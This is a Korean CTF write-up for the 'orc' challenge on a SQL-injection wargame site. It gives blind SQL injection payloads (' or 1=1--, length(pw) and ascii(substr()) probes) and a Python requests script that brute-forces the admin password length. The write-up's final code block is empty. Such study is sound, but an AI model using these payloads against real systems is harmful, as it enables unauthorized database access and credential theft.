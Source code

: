 ## Q4. orc
<img src="/photo/prob_04.PNG" width="100%" height="100%" alt="problem"></img>

#### 5thofnovmbr
```
풀이: 
blind SQLinjection은 참과 거짓이 어떻게 표시되는지 알아내는게 중요하다.
?pw=' or 1=1--%20을 입력하면 Hello admin이 출력된다.(참일 때 반환값)
입력한 pw값이 DB에 있는 pw와 같아야 문제가 풀리므로 pw를 알아내야 한다.
다음 쿼리문으로 pw의 길이를 알아낼 수 있다.
```
[requests 모듈 사용법](https://github.com/5thofnovmbr/etc/blob/master/requests_intro.md)
```
select id from prob_orc where id='admin' and pw=''or length(pw)=n-- {$_GET[pw]}'
```
```python
import requests as req 

url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

ck = {"PHPSESSID":"본인의 PHPSESSID"}
#쿠키값 PHPSSESID라고 잘못 적었다가 왜 안되지..하면서 몇 십 분 잡고 있었다..ㅠㅠㅠ

for i in range(10):
	param = f"' or length(pw)={i}-- "
	with req.get(url, params={"pw":param}, cookies=ck) as res:
		if res.text.count("Hello")==2:
			print('pw의 길이 :', i)
```
```
다음 쿼리문으로 pw의 글자를 하나씩 비교해 알아낼 수 있다.
```
```
select id from prob_orc where id='admin' and pw=''or ascii(substr(pw from 숫자 for 1))=숫자-- {$_GET[pw]}'
```
```
substr(pw from n for 1)은 mysql함수로 문자열을 잘라준다. pw의 n번째 자리(1부터시작)부터 for뒤의 숫자 개수만큼 잘라 반환한다.
ascii()는 해당 글자의 ascii코드 값을 반환한다.
```
```python
```